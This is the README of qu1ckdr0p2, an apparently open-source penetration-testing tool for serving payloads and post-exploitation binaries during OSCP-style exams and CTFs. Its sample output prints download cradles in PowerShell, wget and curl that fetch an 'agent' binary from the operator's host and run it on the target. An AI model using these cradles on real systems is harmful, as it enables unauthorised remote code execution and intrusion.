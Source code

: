 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2

echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc

or

echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc

serv init --update

```

## Usage
### Serv a single file located in your current working directory
```zsh
$ serv serve -f implant.bin --https 443
```
```zsh
$ serv serve -f file.example --http 8080
```

## Update and help
```zsh
$ serv --help            
Usage: serv [OPTIONS] COMMAND [ARGS]...

  Welcome to qu1ckdr0p2 entry point.

Options:
  --debug  Enable debug mode.
  --help   Show this message and exit.

Commands:
  init   Perform updates.
  serve  Serve files.
```
```zsh
$ serv serve --help
Usage: serv serve [OPTIONS]

  Serve files.

Options:
  -l, --list         List aliases
  -s, --search TEXT  Search query for aliases
  -u, --use INTEGER  Use an alias by a dynamic number
  -f, --file FILE    Serve a file
  --http INTEGER     Use HTTP with a custom port
  --https INTEGER    Use HTTPS with a custom port
  -h, --help         Show this message and exit.
```
```zsh
$ serv init --help       
Usage: serv init [OPTIONS]

  Perform updates.

Options:
  --update            Check and download missing tools.
  --update-self       Update the tool using pip.
  --update-self-test  Used for dev testing, installs unstable build.
  --help              Show this message and exit.
```

```zsh
$ serv init --update
```
```zsh
$ serv init --update-self
```
### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search ligolo               

[→] Path: ~/.qu1ckdr0p2/windows/agent.exe
[→] Alias: ligolo_agent_win
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/proxy.exe
[→] Alias: ligolo_proxy_win
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/linux/agent
[→] Alias: ligolo_agent_linux
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/linux/proxy
[→] Alias: ligolo_proxy_linux
[→] Use: 4
(...)
```
```zsh
$ serv serve --search ligolo -u 3 --http 80

[→] Serving: ../../.qu1ckdr0p2/linux/agent
[→] Protocol: http
[→] IP address: 192.168.1.5
[→] Port: 80
[→] Interface: eth0
[→] CTRL+C to quit

[→] URL: http://192.168.1.5:80/agent

[↓] csharp:
$webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('http://192.168.1.5:80/agent', 'c:\windows\temp\agent'); Start-Process 'c:\windows\temp\agent'

[↓] wget:
wget http://192.168.1.5:80/agent -O /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] curl:
curl http://192.168.1.5:80/agent -o /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] powershell:
Invoke-WebRequest -Uri http://192.168.1.5:80/agent -OutFile c:\windows\temp\agent; Start-Process c:\windows\temp\agent

⠧ Web server running

```




## License

MIT

---

